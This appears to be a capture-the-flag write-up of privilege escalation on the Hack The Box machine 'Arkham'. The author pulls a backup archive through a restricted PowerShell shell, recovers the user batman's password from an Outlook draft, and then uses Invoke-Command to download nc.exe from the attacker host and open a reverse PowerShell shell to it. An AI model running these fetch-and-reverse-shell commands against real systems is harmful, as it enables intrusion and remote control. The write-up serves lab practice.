


# 20 - PrivEsc


# backup.zip
```
PS C:\Users\Alfred\Downloads\backups> dir
dir


    Directory: C:\Users\Alfred\Downloads\backups


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----         2/3/2019   8:41 AM         124257 backup.zip                                                            


PS C:\Users\Alfred\Downloads\backups> 
```


# Constrained language
```bash
PS C:\Users\Alfred\Downloads\backups> $base64string = [Convert]::ToBase64String([IO.File]::ReadAllBytes($filename))
$base64string = [Convert]::ToBase64String([IO.File]::ReadAllBytes($filename))                                                                                                                 
Cannot invoke method. Method invocation is supported only on core types in this language mode.
At line:1 char:1                  
+ $base64string = [Convert]::ToBase64String([IO.File]::ReadAllBytes($fi ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : InvalidOperation: (:) [], RuntimeException
    + FullyQualifiedErrorId : MethodInvocationNotSupportedInConstrainedLanguage
```

our shell is restricted


# Copy backup.zip to attacker

```
PS C:\Users\Alfred\Downloads\backups> certutil -encode backup.zip backup.txt
certutil -encode backup.zip backup.txt
Input Length = 124257
Output Length = 170910
CertUtil: -encode command completed successfully.
```

The first and the last lines must be removed in order to decode with base64 on linux.


```
┌─[user@parrot]─[10.10.14.18]─[~/htb/arkham/backup]
└──╼ $ base64 -d backup.b64 > backup.zip
┌─[user@parrot]─[10.10.14.18]─[~/htb/arkham/backup]
└──╼ $ file backup.zip 
backup.zip: Zip archive data, at least v2.0 to extract
┌─[user@parrot]─[10.10.14.18]─[~/htb/arkham/backup]
└──╼ $ unzip backup.zip 
Archive:  backup.zip
  inflating: alfred@arkham.local.ost  
┌─[user@parrot]─[10.10.14.18]─[~/htb/arkham/backup]
└──╼ $ file alfred@arkham.local.ost 
alfred@arkham.local.ost: Microsoft Outlook email folder
```

# Import Outlook file on Evolution



After importing the outlook folder, we discover that there is a draft which contains an image of a cmd command. Last part of the command is the password of the user batman.


# Invoke-Command powershell remoting
```
PS C:\Users\Alfred\Downloads\backups> $pass = convertTo-SecureString 'Zx^#QZX+T!123' -AsPlainText -Force
PS C:\Users\Alfred\Downloads\backups> $cred = New-Object System.Management.Automation.PSCredential("batman",$pass)
PS C:\Users\Alfred\Downloads\backups> hostname
ARKHAM
PS C:\Users\Alfred\Downloads\backups> Invoke-Command -Computer ARKHAM -ScriptBlock { powershell IWR -uri http://10.10.14.18/nc.exe -outfile c:\Users\batman\nc.exe} -Credential  $cred

PS C:\Users\Alfred\Downloads\backups> Invoke-Command -Computer ARKHAM -ScriptBlock { c:\Users\batman\nc.exe -e powershell.exe 10.10.14.18 9002} -Credential $cred

```


# Shell
